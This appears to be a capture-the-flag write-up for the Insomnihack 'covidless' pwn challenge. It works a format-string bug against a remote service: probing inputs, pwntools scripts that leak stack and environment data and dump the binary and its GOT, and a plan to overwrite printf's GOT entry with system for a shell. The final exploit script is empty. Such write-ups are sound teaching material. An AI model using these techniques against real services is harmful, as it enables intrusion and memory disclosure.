 ```yaml
---
title: "[pwn] covidless"
categories:
  - CTF/pwn
tags:
  - fmtstr
  - overwriteGOT
---
```


The only info provided was ip addr & port number. Without binary to download, then i try it, the binary has format string vuln.

```bash
$ nc covidless.insomnihack.ch 6666
%8$p
Your covid pass is invalid : 0x5379334b5f763172
try again ..

%9$p
Your covid pass is invalid : 0x5f74304e6e34635f
try again ..
```

```python
#!/usr/bin/python3
from pwn import *
context.log_level='critical'

for i in range(1, 100):
    r = remote('covidless.insomnihack.ch', '6666')

    # r.sendline(f'%{i}$s')   #1
    r.sendline(f"%{i}$016lx") #2

    data = r.recvline()[29:-1]
    if(data != b'(null)'):
        print(i, data)
    r.close()
```

with `#1` i obtain some info

```bash
59 b'./covidless'
61 b'REMOTE_HOST=::ffff:14.177.85.188'
69 b'PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'
73 b'LD_PRELOAD=./libc6_2.27-3ubuntu1_amd64.so'
84 b'\x7fELF\x02\x01\x01'
```

and output from 2 consecutive runs, it has some same

```bash
1 b'0000000000400934'
6 b'74346e3143633456'
7 b'505f44315f6e6f31'
8 b'5379334b5f763172'
9 b'5f74304e6e34635f'
30 b'0000000000400890' <- A return address that points into
35 b'000000000040075a'    the .text segment of the program
```

We can assume that PIE is off (the `.text` segment addresses are the same each time).

The .text segment likely starts at `0x400000`

```python
# dump.py
#!/usr/bin/python3
from pwn import *

binary = b""
leak = b""
io = remote('covidless.insomnihack.ch', 6666)
addr = 0x400000 # 0x601000
while addr != 0x402000:# 0x602000
    if '0a' in hex(addr):
        leak = b"0"
        binary += b'\0'
    else:
        payload = b"%13$sAAA"+p64(addr)
        io.sendline(payload)
        io.recvuntil(b" : ")
        leak = io.recvuntil(b"AAA",drop=True)
        if leak == b"":
            leak = b"0"
            binary += b'\0'
        else:
            binary += leak
				 print(hex(addr), '0x' + leak[::-1].hex())
    with open('bin','wb+') as f:
        f.write(binary)
    addr += len(leak)

$ ./dump.py > log.txt
```

look at import tab in ida, the GOT located at offset `0x601000` run it again with new addr

log.txt + [symbols on libc](https://libc.blukat.me/d/libc6_2.27-3ubuntu1_amd64.symbols) :

```bash
0x601000 0x600e20
0x601008 0x7fddfa0fe170
0x60100e 0x30
0x60100f 0x30
0x601010 0x7fddf9eea8f0
0x601016 0x30
0x601017 0x30
0x601018 0x7fddf9b629c0 -> _IO_puts
0x60101e 0x30
0x60101f 0x30
0x601020 0x4005f6
0x601028 0x7fddf9b46e80 -> _IO_printf
0x60102e 0x30
0x60102f 0x30
0x601030 0x7fddf9c70f50 -> _snprintf
0x601036 0x30
0x601037 0x30
0x601038 0x7fddf9b60b20 -> _IO_fgets, fgets
0x60103e 0x30
0x60103f 0x30
0x601040 0x7fddf9b8be70 -> __snprintf_chk
0x601046 0x30
0x601047 0x30
0x601048 0x7fddf9b607e0 -> _IO_2_1_stdin_
0x601060 0x7fddf9ece760
0x601071 0x7fddf9ecda
```

---

## Strategy

1. Leak the glibc base addr from GOT
2. Overwrite the GOT entry of `printf` with `system` using a format str
3. Get a shell

```python
# xpl.py

```